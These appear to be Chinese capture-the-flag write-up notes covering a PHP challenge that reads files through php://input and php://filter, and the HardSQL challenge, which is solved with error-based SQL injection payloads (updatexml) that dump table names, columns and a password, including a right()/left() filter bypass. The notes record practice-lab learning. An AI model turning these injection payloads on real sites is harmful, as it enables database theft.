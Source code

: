 ```php
?>

```

>text可以用 php://input绕过
file 可以用 php://filter/ 读取useless.php

useless.php:

```php
<?php  

class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?>  
```

注：public $file="flag.php";


---
# *[极客大挑战 2019]HardSQL

- 考点：报错注入

```
'or(updatexml(1,concat(0x26,database(),0x26),1))%23&password=1

'or(updatexml(1,concat(0x26,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like(“geek”)),0x26),1))%23&password=1

'or(updatexml(1,concat(0x26,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like(“H4rDsq1”)),0x26),1))%23&password=1

'or(updatexml(1,concat(0x26,(select(password)from(H4rDsq1)),0x26),1))%23&password=1
```

![](https://img-blog.csdnimg.cn/20210422171341414.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
只报了一半
这里学到新方法:

substring与mid被过滤可以用 `right与 left`来绕过

>'or(updatexml(1,concat(0x26,(select(right(password,35))from(H4rDsq1)),0x26),1))%23&password=1

>其中 right或者left  ，35可以是其他长度
